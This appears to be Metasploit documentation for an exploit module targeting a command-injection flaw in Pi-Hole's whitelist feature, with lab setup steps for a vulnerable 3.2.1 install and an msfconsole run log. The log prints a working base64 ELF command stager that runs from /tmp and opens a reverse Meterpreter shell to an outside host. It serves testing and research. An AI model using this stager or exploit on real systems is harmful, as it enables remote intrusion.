 ## Vulnerable Application

This exploits a command execution vulnerability in Pi-Hole <= 3.3. When adding a 
new domain to the whitelist, it is possible to chain a command to 
the domain that is run on the OS.

### Setup

Install Pi-Hole [Pi-Hole 3.2.1](https://github.com/pi-hole/pi-hole/releases/tag/v3.2.1)
with the following commands:

```
sudo git clone --depth=1 -b v3.2.1 https://github.com/pi-hole/pi-hole.git /etc/.pihole
# replace 'git clone' with 'git clone -b v3.2.1'
sudo nano /etc/.pihole/automated\ install/basic-install.sh
sudo ./basic-install.sh
```

Pi-Hole attempts to install the latest versions of the software.  Modifying the git clone
command will force it to install the old AdminLTE and Pi-Hole versions.  However this
will make FTL fail to install.

Answer everything with the default.

Lastly, we need to create one file which wasn't made.

```
sudo touch /etc/pihole/GitHubVersions
```

This will be enough to make it exploitable, however the dashboard won't fully work since some
other components were installed which are too new for it to work with.

If you wish to install FTL, follow the [directions](https://docs.pi-hole.net/ftldns/compile/).
However, when cloning the FTL repo, add the flag `-b v2.13.1` to pull an age appropriate version.
Also, the service may not install correctly.  However simply running `sudo /usr/bin/pihole-FTL`
will start it successfully.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/unix/http/pihole_whitelist_exec```
  4. Do: ```set rhosts```
  4. Do: ```run```
  5. You should get a shell.

## Options

### Password

Password for the web interface.  Randomly set on install.  Use `pihole -a -p` to change/remove it.

## Scenarios

### Pi-Hole 3.2.1 with AdminLTE 3.2.1 on Ubuntu 18.04

  ```
  msf5 > use exploit/unix/http/pihole_whitelist_exec 
  msf5 exploit(unix/http/pihole_whitelist_exec) > set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  msf5 exploit(unix/http/pihole_whitelist_exec) > set verbose true
  verbose => true
  msf5 exploit(unix/http/pihole_whitelist_exec) > run
  
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] Version Detected: 3.2.1
  [*] Generated command stager: ["echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towKgCgGgCABFcieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZsmqwA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/DaQVx.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/QUFVT' < '/tmp/DaQVx.b64' ; chmod +x '/tmp/QUFVT' ; '/tmp/QUFVT' ; rm -f '/tmp/QUFVT' ; rm -f '/tmp/DaQVx.b64'"]
  [*] Using cookie: PHPSESSID=j8o7g4m3e30279850hi275mqhk;
  [*] Using token: OoSESvgJJEWq7mvYBEOJaa/6jyA0GRy56pRZvy93IlU=
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (980808 bytes) to 2.2.2.2
  [*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:44212) at 2020-05-13 23:25:19 -0400
  [*] Command Stager progress - 100.00% done (763/763 bytes)
  
  meterpreter > getuid
  Server username: no-user @ ubuntu1804 (uid=33, gid=33, euid=33, egid=33)
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 18.04 (Linux 4.15.0-20-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```
